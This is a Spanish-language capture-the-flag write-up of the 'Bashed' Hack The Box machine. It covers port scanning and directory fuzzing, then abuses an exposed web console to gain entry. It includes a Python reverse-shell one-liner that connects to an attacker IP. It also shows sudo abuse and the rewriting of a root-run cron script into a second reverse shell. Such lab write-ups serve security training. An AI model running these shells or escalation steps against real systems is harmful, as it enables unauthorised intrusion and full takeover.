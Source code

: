 ```yaml
---
title: "Bashed"
date: Fri Aug 23 2024 10:13:12 GMT+0200 (Central European Summer Time)
categories: [WriteUp, HTB]
tags: [fuzzing, gobuster, pspy]
image: /assets/img/cabeceras/2024-08-23-bashed---writeup.png
---
```


NMAP

```bash
# Nmap 7.94SVN scan initiated Sat Jan 27 20:55:30 2024 as: nmap -sCV -p 80 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xs
l -oN targeted -oX targetedXML 10.129.79.90
Nmap scan report for 10.129.79.90
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 27 20:55:38 2024 -- 1 IP address (1 host up) scanned in 8.04 seconds
```

NMAP HTTP-ENUM

```bash
nmap -sCV -p80 --script http-enum 10.129.79.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 20:57 CET
Nmap scan report for 10.129.79.90
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.96 seconds
```

HTTP

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127205956.png)

Vamos a realizar fuzzing de directorios y ficheros.

```bash
$ gobuster dir -u http://10.129.79.90 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --follow-redirect --add-slash
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 293]
/uploads/             (Status: 200) [Size: 14]
/php/                 (Status: 200) [Size: 940]
/css/                 (Status: 200) [Size: 1759]
/images/              (Status: 200) [Size: 1565]
/dev/                 (Status: 200) [Size: 1149]
/js/                  (Status: 200) [Size: 3166]
/fonts/               (Status: 200) [Size: 2096]
/server-status/       (Status: 403) [Size: 301]
```

Dentro de /dev encontramos lo siguiente:

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211027.png)

Si pulsamos en cualquiera de los dos abriremos una consola de ejecución local de comandos.

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211226.png)

Vamos a intentar mandarnos una reverse shell.

Nos ponemos a la escucha por el puerto 4444 con _NetCat_

```bash
$ nc -nlvp 4444
```

Ejecutamos lo siguiente:

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127212741.png)

Hacemos un _sudo -l_ y vemos algo interesante...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220412.png)

Podemos ejecutar comandos como el usuario _scriptmanager_ sin proporcionar contraseña.

Nos subimos _linpeas_ y _pspy_ y seguimos enumerando...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220643.png)

Con _pspy_ descubrimos que root ejecuta un script en python que ejecuta todos los scripts con extensión .py dentro de la carpeta /scripts. Pero no podemos ver ni entrar en esa carpeta, vamos a ver a quién pertenece...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220925.png)

Sospechosamente pertenece al usuario _scriptmanager_...

Pero recordamos que tenemos el permiso de ejecutar tareas como ese usuario así que vamos a intentar espawnearnos una shell...

```bash
$ sudo -u scriptmanager bash -i
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221109.png)

Y funciona! somo el usuario _scriptmanager_!

Ahora podemos modificar y entrar en la carpeta /script. Como existe una tarea que ejecuta scripts cada dos minutos como usuario _root_, lo que tendremos que hacer es crear un archivo Python que nos mande una shell ...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221415.png)

Creo que bastará con modificar el archivo .py existente.

Lo abrimos y lo dejamos así:

```Python
import socket,subprocess,os 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.93",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Grabamos y nos ponemos en escucha por el puerto que hayamos indicado:

```bash
$ mc -nlvp 8888
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127222242.png)

Reto conseguido!

